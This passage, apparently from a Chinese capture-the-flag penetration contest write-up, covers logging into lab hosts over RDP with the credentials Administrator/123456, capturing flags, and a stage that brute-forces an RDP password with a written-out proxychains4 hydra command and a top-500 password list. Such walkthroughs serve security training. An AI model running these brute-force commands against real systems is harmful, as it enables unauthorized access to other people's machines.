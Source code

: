 ![image-20220618100520529717-1655869821589218.png](img/网络安全渗透赛 Local.assets/b68f49cd39fb09cbfaaccdd86df0eadd.png)

远程主机信息：

```
远程地址：192.168.3.20

登录信息：SCENE\Administrator

登录密码：123456
```

远程登录成功后在桌面发现flag：

![image-20220622113723589508-1655869822833715.png](img/网络安全渗透赛 Local.assets/6e0b2278fec62404fe0dbee87e747f68.png)

```
flag{CEEC-DD6F-547D-B348-4D46-76F1-F30A-CB65}
```

#### 阶段四：User02

##### 任务7：hydra爆破rdp(T1110 - 暴力破解)

回到`Kali`主机，因`192.168.3.30`主机开放3389端口，打开新的终端，输入命令爆破`192.168.3.30`主机rdp密码：

```
proxychains4 hydra -l Administrator -P /root/Desktop/Tools/fuzzDicts/passwordDict/top500.txt rdp://192.168.3.30 -V
```

![image-20220618103525204495-1655869824141137.png](img/网络安全渗透赛 Local.assets/cc20cba41d8fd1dbe96ad76ac30f5500.png)

回到`Win10`主机，尝试远程登录：

```
远程地址：192.168.3.30

登录信息：Administrator

登录密码：123456
```

远程登录成功后在桌面发现flag：

![image-20220622113926871462-1655869825418131.png](img/网络安全渗透赛 Local.assets/8c51845512d408112edac3ac67ffaa86.png)

```
flag{02B1-8B93-D7F6-7385-C2E5-3269-C881-1F62}
```